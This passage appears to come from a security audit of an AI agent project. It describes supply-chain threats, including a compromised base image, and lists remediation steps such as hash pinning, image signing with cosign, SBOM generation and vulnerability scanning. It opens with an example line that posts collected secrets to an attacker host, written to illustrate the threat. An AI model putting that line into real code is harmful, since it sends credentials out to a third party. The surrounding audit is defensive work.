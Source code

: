 ```python
requests.post('http://attacker.com/collect', json=secrets)
```

**Scenario 2: Compromised Base Image**
```dockerfile
FROM python:3.11-slim  # No digest pinning

# If python:3.11-slim is compromised:
# - Backdoored Python interpreter
# - Mining malware in base layers
# ✅ All deployments compromised
```

**IMMEDIATE ACTIONS (P0)**:
```yaml
1. Pin All Dependencies with Hashes
   # requirements.txt
   pydantic-ai==1.0.0 \
     --hash=sha256:abc123...

2. Container Image Signing
   # Sign images
   cosign sign ghcr.io/bruno/agent-bruno:v1.0.0
   
   # Verify before deployment
   cosign verify --key cosign.pub ghcr.io/bruno/agent-bruno:v1.0.0

3. Generate SBOM
   syft ghcr.io/bruno/agent-bruno:v1.0.0 -o spdx-json > sbom.json

4. Vulnerability Scanning (CI/CD)
   # .github/workflows/security.yml
   - name: Scan dependencies
     run: |
       trivy image --severity CRITICAL,HIGH agent-bruno:latest
       grype agent-bruno:latest --fail-on high

5. Admission Controller
   apiVersion: v1
   kind: Pod
   metadata:
     annotations:
       policy.sigstore.dev/include: "true"
   # Pod rejected if image not signed

6. Pin Base Images with Digest
   FROM python:3.11-slim@sha256:abc123...
```

---

### 🔴 V8. MISSING NETWORK SECURITY CONTROLS (CVSS 7.0 - HIGH)
